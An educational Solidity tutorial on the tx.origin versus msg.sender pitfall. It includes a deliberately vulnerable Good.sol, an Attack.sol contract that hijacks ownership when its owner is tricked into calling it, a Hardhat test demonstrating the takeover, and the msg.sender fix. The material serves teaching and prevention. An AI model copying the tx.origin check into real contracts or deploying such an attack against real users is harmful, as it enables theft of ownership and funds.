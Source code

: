# 🧠 `tx.origin` vs `msg.sender`

`tx.origin` is a global variable which returns the address that created the original transaction. It is kind of similar to `msg.sender`, but with an important caveat. We will learn how incorrect use of tx.origin could lead to security vulnerabilities in smart contracts.

<Quiz questionId="19f27642-5123-4ca0-8dc2-888901bc1a70" />

## What is tx.origin?

`tx.origin` is a global variable which returns the address of the account which sent the transaction. Now you might be wondering then what is `msg.sender` 🤔. The difference is that `tx.origin` refers to the original external account (which is the user) that started the transaction and `msg.sender` is the immediate account that called the function and it can be an external account or another contract calling the function.

So for example, if User calls Contract A, which then calls contract B within the same transaction, `msg.sender` will be equal to `Contract A` when checked from inside `Contract B`. However, `tx.origin` will be the `User` regardless of where you check it from.

<Quiz questionId="f1794e7c-a213-438e-a44e-4ba8af40fdae" />
<Quiz questionId="8c7cdf4d-f222-4e4f-8f52-111883ebf624" />

### What will happen?

There will be two smart contracts - `Good.sol` and `Attack.sol`. `Good.sol`. Initially the owner of `Good.sol` will be a good user. Using the attack function `Attack.sol` will be able to change the owner of `Good.sol` to itself.

### ⚒️ Build

### Setting up Hardhat

Lets build an example where you can experience how the the attack happens. Start by creating a new project directory.

```bash
mkdir tx-origin
```

Let's now setup Hardhat inside the `tx-origin` directory.

```bash
cd tx-origin
npm init --yes
npm install --save-dev hardhat @nomicfoundation/hardhat-toolbox
npx hardhat
```

when prompted, choose the `Create a Javascript Project` option and follow the steps.

### Writing the Smart Contracts

First, let's create a contract named `Good.sol` which is essentially a simpler version of `Ownable.sol` that we have previously used.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Good {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function setOwner(address newOwner) public {
        require(tx.origin == owner, "Not owner");
        owner = newOwner;
    }
}
```

Now, create a contract named `Attack.sol` within the `tx-origin/contracts` directory and write the following lines of code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "./Good.sol";

contract Attack {
    Good public good;

    constructor(address _good) {
        good = Good(_good);
    }

    function attack() public {
        good.setOwner(address(this));
    }
}
```

### Writing the test

Now lets try immitating the attack using a sample test, create a new file under `test` folder named `attack.js` and add the following lines of code to it

```javascript
const { expect } = require("chai");
const { ethers } = require("hardhat");

describe("tx.origin", function () {
  it("Attack.sol will be able to change the owner of Good.sol", async function () {
    // Get one address
    const [_, addr1] = await ethers.getSigners();

    // Deploy the good contract
    const Good = await ethers.getContractFactory("Good");
    const goodContract = await Good.connect(addr1).deploy();
    await goodContract.deployed();
    console.log("Good Contract's Address:", goodContract.address);

    // Deploy the Attack contract
    const Attack = await ethers.getContractFactory("Attack");
    const attackContract = await Attack.deploy(goodContract.address);
    await attackContract.deployed();
    console.log("Attack Contract's Address", attackContract.address);

    let tx = await attackContract.connect(addr1).attack();
    await tx.wait();

    // Now lets check if the current owner of Good.sol is actually Attack.sol
    expect(await goodContract.owner()).to.equal(attackContract.address);
  });
});
```

The attack will happen as follows, initially `addr1` will deploy `Good.sol` and will be the owner but the attacker will somehow fool the user who has the private key of `addr1` to call the `attack` function with `Attack.sol`.

When the user calls `attack` function with `addr1`, `tx.origin` is set to `addr1`. `attack` function further calls `setOwner` function of `Good.sol` which first checks if `tx.origin` is indeed the owner which is `true` because the original transaction was indeed called by `addr1`. After verifying the owner, it sets the owner to `Attack.sol`

And thus attacker is successfully able to change the owner of `Good.sol` 🤯

### Testing the attack

To run the test, in your terminal pointing to the root directory of this level execute the following command

```bash
npx hardhat test
```

When the tests pass, you will notice that the owner of `Good.sol` is now `Attack.sol`

## Real Life Example

While this may seem obvious to most of you, as `tx.origin` isn't something you see being used at all, some developers do make this mistake. You can read about the [THORChain Hack #2 here](https://rekt.news/thorchain-rekt2/) where users lost millions in $RUNE due to an attacker being able to get approvals on $RUNE token by sending a fake token to user's wallets, and approving that token for sale on Uniswap would transfer $RUNE from the user's wallet to the attacker's wallet because THORChain used `tx.origin` for transfer checks instead of `msg.sender`.

<Quiz questionId="88403387-338e-4a18-9c2f-9c73b4841c43" />

## 👮 Prevention

You should use `msg.sender` instead of `tx.origin` to not let this happen. There is almost never a good use case for `tx.origin` except in very specific cases - and in those times, be VERY careful.

Example:

```solidity
function setOwner(address newOwner) public {
    require(msg.sender == owner, "Not owner" );
    owner = newOwner;
}
```

<Quiz questionId="e9fac2b4-c5f3-4fc9-acd7-26ca40ea12b5" />

## 👋 Conclusion

Hope you learnt something from this level. If you have any questions or feel stuck or just want to say Hi, hit us up on our [Discord](https://discord.gg/learnweb3). We look forward to seeing you there!

<SubmitQuiz />
